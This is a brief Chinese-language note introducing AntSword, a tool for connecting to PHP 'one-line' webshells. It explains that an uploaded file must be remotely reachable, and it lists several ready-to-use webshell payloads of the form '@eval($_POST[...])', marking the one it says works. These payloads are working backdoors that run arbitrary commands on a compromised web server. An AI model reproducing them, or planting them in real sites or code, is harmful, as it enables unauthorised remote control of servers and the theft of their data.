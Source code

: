 ## 简介

蚁剑，用于连接一句话木马。

能连接的前提是提交到远程网站的文件可以被远程访问

特别的是，蚁剑的一句话木马的密码部分不一定都可以被使用。

例如以下的内容可能都不能使用，可能cmd部分被杀了。

```bash
<?php phpinfo(); @eval($_POST['shell']); ?>
<?php eval($_POST['password']);?>
<?php @eval($_POST['attack']);?>
<?php @eval($_POST["shell"]);?>


//这个就可以使用
<?php @eval($_POST["pass"]);?>
```

